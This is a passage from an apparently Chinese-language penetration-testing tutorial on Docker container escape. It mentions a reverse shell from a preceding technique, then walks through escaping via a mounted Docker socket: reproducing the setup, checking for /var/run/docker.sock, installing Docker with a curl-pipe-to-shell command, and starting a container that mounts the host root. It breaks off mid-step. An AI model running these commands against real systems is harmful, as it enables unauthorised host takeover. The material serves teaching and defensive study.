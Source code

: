 于此同时,我们在容器内运行该程序

```php
./ning
```

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1701622480490-be03f80d-3495-4422-8929-6af1d17d493e.png)

成功反弹shell

### 挂载 Docker Socket 逃逸

什么是Docker Socket?

Docker Socket（也称为Docker API Socket）是Docker引擎的UNIX套接字文件，**用于与Docker守护进程（Docker daemon）进行通信**。Docker守护进程是Docker引擎的核心组件，负责管理和执行容器。Docker Socket允许用户通过基于RESTful API的请求与Docker守护进程进行通信，以便执行各种操作，例如创建、运行和停止容器，构建和推送镜像，查看和管理容器的日志等。

简而言之:当容器启动时以挂载Docker Socket的方式启动时,我们就可以尝试逃逸

环境复现:

```php
docker run -itd --name docker_sock -v /var/run/docker.sock:/var/run/docker.sock ubuntu
```

1.判断当前容器是否挂载Docker Socket,如果存在文件则说明Docker Socket被挂载

```php
ls -lah /var/run/docker.sock
```

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1702553764734-ffc2a1e5-d9be-48a7-8b9d-1b4d1d0a08d2.png)

如何逃逸?

我们可以在容器内部创建一个新的容器，因为Docker Socket被挂载到了当前容器,所有我们可以将宿主机目录挂载到新的容器内部

**即在容器内创建一个挂载了宿主机根目录的容器,然后将目录切换到根目录即可完成逃逸**

我们在当前容器内部安装docker命令行

```php
docker exec -it docker_sock /bin/bash
apt-get update
apt-get install curl
curl -fsSL https://get.docker.com/ | sh
```

接下来的逃逸就十分简单了,我们只需要在容器内部启动一个挂载宿主机根目录的容器即可

```php
docker run -it -v /:/ning ubuntu /bin/bash
```

可以看到我们的id值发生变化,说明我们已经进入了一个新的容器内部

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1702556993124-833a3fd1-23a7-4f9f-8252-db6afeb6d43c.png)

这里我们切换根目录
